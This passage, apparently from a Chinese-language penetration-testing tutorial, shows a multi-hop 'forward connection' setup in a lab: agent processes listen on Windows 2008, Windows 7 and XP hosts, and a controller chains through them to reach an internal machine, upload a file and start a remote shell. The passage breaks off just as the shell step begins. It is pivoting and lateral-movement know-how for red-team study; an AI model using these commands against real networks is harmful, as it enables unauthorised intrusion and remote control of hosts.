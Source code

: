 ###   

### **3.2 正向连接**

  

①win08本地监听

```
agent_win32.exe -l 6666
```

②win 7 本地监听  

```
agent_win32.exe -l 7777
```

③xp 本地监听

```
agent_win32.exe -l 8888
```

④物理机连接win08

```
admin_Win32.exe -c 192.168.1.10 -p 6666
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

⑤通过域win08建立的隧道连接win 7

```
`#连接win08成功后查看连接的隧道会话``show``#进入08的会话``goto 1``#连接win 7``connect 192.168.106.129 7777`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

⑥连接XP

```
`#进去win7的会话``goto 2``#连接xp``connect 169.254.228.204 8888`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

⑦成功建立隧道。开始执行命令:  
命令一：文件上传  

```
`# 传送文件。将本地c:\unintall.log文件传送到目标服务器命名为1.txt``goto 5``upfile c:\unintall.log 1.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)命令二：调用shell  
